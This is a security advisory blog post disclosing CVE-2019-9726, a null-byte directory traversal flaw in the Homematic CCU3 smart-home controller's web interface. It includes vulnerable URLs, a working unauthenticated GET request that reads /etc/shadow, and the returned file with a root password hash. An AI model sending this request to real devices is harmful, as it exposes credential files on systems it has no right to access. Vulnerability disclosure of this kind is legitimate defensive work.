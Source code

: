 ```yaml
---
layout: post
title: "CVE-2019-9726: Directory Traversal / Arbitrary File Read in Homematic CCU3"
date:   2019-03-26 10:00:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Overview

- Vendor: eQ-3 AG
- Product: Homematic CCU3
- Version: 3.43.15
- Vulnerability: Arbitrary File Read

# Background

HomeMatic is a home automation system consisting of various components for automating several parts of a building, including different sensors and actuators. The HomeMatic CCU3 is a central control unit, which is responsible for integrating these components with each other.

From the vendor's website:
"The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures."

# Issue Description

While analyzing the implementation of the CCU3's web interface, a Directory Traversal vulnerabilities has been identified, which can be exploited in order to read files from the CCU3's filesystem. This vulnerability can be exploited by unauthenticated attackers with access to the web interface. The vulnerability exist because of erroneous handling of Nullbytes. The following URLs are proofed to be vulnerable:

- http://1.1.1.1/.%00./.%00./tmp/event/subscriber.list
- http://1.1.1.1/.%00./.%00./etc/shadow

The following HTTP request illustrates the attack:

~~~ http
GET /.%00./.%00./etc/shadow HTTP/1.1
Host: 1.1.1.1
User-Agent: curl/7.64.0
Accept: */*
~~~

Response of the Homematic CCU3:

~~~
root:$1$FgzlpeV5$8cHtTwR1K5UkDHyNDlmo51:17640:0:99999:7:::
daemon:*:10933:0:99999:7:::
bin:*:10933:0:99999:7:::
sys:*:10933:0:99999:7:::
sync:*:10933:0:99999:7:::
mail:*:10933:0:99999:7:::
www-data:*:10933:0:99999:7:::
halt:*:10933:0:99999:7:::
uucp:*:10933:0:99999:7:::
operator:*:10933:0:99999:7:::
ftp:*:10933:0:99999:7:::
nobody:*:10933:0:99999:7:::
_ntp:*:::::::
sshd:*:::::::
~~~

# CVE

[CVE-2019-9726](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9726)

# CVSSv3 Base Score

CVSS Base Score: __7.5__

CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N

# Credit

Pascal Keul of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
